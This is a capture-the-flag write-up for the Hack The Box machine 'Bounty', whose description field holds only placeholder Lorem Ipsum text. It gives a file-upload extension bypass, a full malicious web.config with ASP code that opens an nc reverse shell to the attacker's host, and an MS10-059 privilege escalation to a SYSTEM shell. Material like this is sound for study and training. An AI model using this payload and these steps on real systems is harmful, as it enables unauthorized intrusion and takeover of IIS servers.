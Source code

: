 ```yaml
---
title: Bounty - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-28
image: images/bounty_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/bounty_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/bounty]# nmap -Pn -n -sCV 10.10.10.93 --open                                                                       (master✱)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Bounty
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


  DIRB:
  ==> DIRECTORY: http://10.10.10.93/aspnet_client/
  ==> DIRECTORY: http://10.10.10.93/uploadedfiles/

  NIKTO:
  + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST


2. Visiting port 80 we only see merlin.jpg, download the image to see if something is hidden within.

    [root:/git/htb/bounty]# binwalk -e merlin.jpg
      DECIMAL       HEXADECIMAL     DESCRIPTION
      --------------------------------------------------------------------------------
      0             0x0             JPEG image data, JFIF standard 1.02
      30            0x1E            TIFF image data, big-endian, offset of first image directory: 8
      332           0x14C           JPEG image data, JFIF standard 1.02
      7637          0x1DD5          JPEG image data, JFIF standard 1.02

  Binwalk doesn't extract anything, however we can see two other images with offset 332 and 7637. Extract them with dd.

    [root:/git/htb/bounty]# dd if=merlin.jpg of=out.jpg skip=332 bs=1                                                               (master✱)
      780400+0 records in
      780400+0 records out
      780400 bytes (780 kB, 762 KiB) copied, 2.0058 s, 389 kB/s

    [root:/git/htb/bounty]# dd if=merlin.jpg of=out2.jpg skip=7637 bs=1                                                             (master✱)
      773095+0 records in
      773095+0 records out
      773095 bytes (773 kB, 755 KiB) copied, 2.52271 s, 306 kB/s

  Both images have the same illustration, merlin, but are smaller - like a thumbnail. This leads to nothing, move one.
  Start to fuzz to see if we can find anything else.

    root@nidus:~/Downloads# ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://bounty.htb/FUZZ.aspx
      --- snip ---
      transfer                [Status: 200, Size: 941, Words: 89, Lines: 22]


3. Our new found side, http://10.10.10.93/transfer.aspx, allows us to upload files.
   We can't see what file type is allowed by looking at the source, but trying a few we can see .jpg is allowed.
   By judging of the merlin picture, we should use 'magic' (magic byte) to bypass this and get our foothold.

  Trying to upload the aspx-file and changing content type from "application/octet-stream" to "image/jpeg" doesn't work.
  Changing the filename from "rev.aspx" to "rev.jpg" works and is allowed, however that doesn't do anything for us.

  To find all available extensions, intercept the upload and send it to burp intruder. Set the extension as target, and upload
  the extension list as payload. Run and we find following allowed extensions:
    gif, jpg, png, doc, config, jpeg, xls, xlsx, docx

  A web.config file lets you customize the way your site or a specific directory on your site behaves. For example, if you
  place a web.config file in your root directory, it will affect your entire site. If you place it in a /content directory,
  it will only affect that directory.

  There is a known RCE vulnerability with web.config-files, download and modify it to trigger a reverse shell.

  [root:/git/htb/bounty]# cat web.config                                                                                          (master✱)
    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
       <system.webServer>
          <handlers accessPolicy="Read, Script, Write">
             <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
          </handlers>
          <security>
             <requestFiltering>
                <fileExtensions>
                   <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                   <remove segment="web.config" />
                </hiddenSegments>
             </requestFiltering>
          </security>
       </system.webServer>
       <appSettings>
    </appSettings>
    </configuration>
    <!–-
    <% Response.write("-"&"->")
    Response.write("<pre>")
    Set wShell1 = CreateObject("WScript.Shell")
    Set cmd1 = wShell1.Exec("//10.10.14.8/share/nc64.exe 10.10.14.8 4488 -e cmd")
    output1 = cmd1.StdOut.Readall()
    set cmd1 = nothing: Set wShell1 = nothing
    Response.write(output1)
    Response.write("</pre><!-"&"-") %>
    -–>

  Start your SMB Share, upload the 'web.config' file, setup a listener and grab the incomming shell.

  [root:/git/htb/bounty]# rlwrap nc -lvnp 4488                                                                                      (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.93] 49160
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    c:\windows\system32\inetsrv> whoami
      bounty\merlin

    c:\windows\system32\inetsrv> type C:\Users\merlin\Desktop\user.txt
      e29ad89891462e0b09741e3082f44a2f



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Grab systeminfo and run windows-exploit-suggester locally.

[root:/git/htb/bounty]# python /opt/windows-exploit-suggester.py --update                                                       (master✱)
  [*] initiating winsploit version 3.3...
  [+] writing to file 2021-03-04-mssb.xls
  [*] done
[root:/git/htb/bounty]# python /opt/windows-exploit-suggester.py --database 2021-03-04-mssb.xls --systeminfo systeminfo.txt     (master✱)
  [*] initiating winsploit version 3.3...
  [*] database file detected as xls or xlsx based on extension
  [*] attempting to read from the systeminfo input file
  [+] systeminfo input file read successfully (ascii)
  [*] querying database file for potential vulnerabilities
  [*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
  [*] there are now 197 remaining vulns
  [+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
  [+] windows version identified as 'Windows 2008 R2 64-bit'
  [*]
  [M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
  [M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
  [E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
  [*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
  [*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
  [*]
  [E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
  [M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
  [M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
  [E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
  [E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
  [M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
  [M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
  [*] done


  HTB don't want any Kernel exploits to be used, so with that in mind we only have MS10-059 for instant privesc.

  [root:/git/htb/bounty]# cp /opt/windows-kernel-exploits/MS10-059/MS10-059.exe /srv/pub-share                                    (master✱)
  [root:/git/htb/bounty]# chmod +x /srv/pub-share/MS10-059.exe

  C:\> //10.10.14.8/share/MS10-059.exe 10.10.14.8 4499
    /Chimichurri/-->This exploit gives you a Local System shell
    /Chimichurri/-->Changing registry values...
    /Chimichurri/-->Got SYSTEM token...
    /Chimichurri/-->Running reverse shell...
    /Chimichurri/-->Restoring default registry values...

  [root:/git/htb/bounty]# rlwrap nc -lvnp 4499                                                                                      (master✱)
  listening on [any] 4499 ...
  connect to [10.10.14.8] from (UNKNOWN) [10.10.10.93] 49163
  Microsoft Windows [Version 6.1.7600]
  Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

  C:\> whoami
  nt authority\system

  C:\> type C:\Users\Administrator\Desktop\root.txt
    c837f7b699feef5475a0c079f9d4f5ea


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

File Extension List:
  https://gist.github.com/securifera/e7eed730cbe1ce43d0c29d7cd2d582f4

web.config RCE:
  https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/
